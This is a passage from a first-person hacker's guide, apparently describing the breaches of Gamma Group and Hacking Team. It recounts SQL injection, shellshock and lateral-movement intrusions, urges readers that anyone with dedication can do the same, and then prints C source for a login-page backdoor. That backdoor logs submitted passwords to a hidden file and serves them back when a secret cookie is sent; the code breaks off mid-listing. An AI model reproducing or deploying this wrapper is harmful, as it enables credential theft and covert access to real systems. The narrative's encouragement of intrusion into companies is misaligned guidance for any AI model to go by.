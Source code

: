 In my last guide many read that I spent weeks researching a device until I found an exploit, and assumed that it meant that I was some kind of elite hacker. The reality, that is, the fact that it took me two weeks to realize that it was trivially exploitable with shellshock, is perhaps less flattering to me, but I think it is also more inspiring. Shows that you can really do this for yourself. You don't need to be a genius, I certainly am not.  Actually my work against Hacking Team started a year earlier. When I discovered Hacking Team and the Gamma Group in the CitizenLab investigations [3][4], I decided to explore a bit and see if I could find anything. I didn't get anywhere with Hacking Team, but I was lucky with Gamma Group, and I was able to hack their customer support portal with basic sql injection and file upload vulnerabilities [5][6]. However, although the customer support server gave me a pivot towards the internal network of Gamma Group, I was unable to penetrate further into the company. From this experience with the Gamma Group and other hacks, I realized that I was really limited by my lack of knowledge about privilege escalation and lateral movement in windows domains, active directory and windows in general.  So I studied and practiced (see section 11), until I felt I was ready to pay a visit to Hacking Team almost a year later. The practice paid off, and this time I was able to make a complete commitment from the company [7]. Before I realized that I could enter with shellshock, I was willing to spend happy whole months of life studying exploit development and writing a reliable exploit for one of the memory corruption vulnerabilities I had encountered. I just knew that Hacking Team needed to be exposed, and that it would take me as much time as necessary and learn what I had to learn to get it. To perform these hacks you don't need to be bright. You don't even need great technical knowledge. You just need dedication, and believe in yourself.

1. https://www.exploit-db.com/papers/41914
2. https://es.wikipedia.org/wiki/Shellshock_(error_de_software)
3. https://citizenlab.ca/tag/hacking-team/
4. https://citizenlab.ca/tag/finfisher/
5. https://theintercept.com/2014/08/07/leaked-files-german-spy-company-helped-bahrain-track-arab-spring-protesters/
6. https://www.exploit-db.com/papers/41913
7. https://web.archive.org/web/20150706095436/https://twitter.com/hackingteam

## [4.2 - The Backdoor]

Part of the backdoor I prepared for Hacking Team (see the first footnote in section 6) was a simple wrapper on the login page to capture passwords:

``` c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <stdlib.h>

int main()
{
        char buf[2048];
        int nread, pfile;

        /* pull the log if we send a special cookie */
        char *cookies = getenv("HTTP_COOKIE");
        if (cookies && strstr(cookies, "our private password")) {
                write(1, "Content-type: text/plain\n\n", 26);
                pfile = open("/tmp/.pfile", O_RDONLY);
                while ((nread = read(pfile, buf, sizeof(buf))) > 0)
                        write(1, buf, nread);
                exit(0);
        }

        /* the parent stores the POST data and sends it to the child, which is the actual login program */
        int fd[2];
        pipe(fd);
        pfile = open("/tmp/.pfile", O_APPEND | O_CREAT | O_WRONLY, 0600);
        if (fork()) {
                close(fd[0]);
```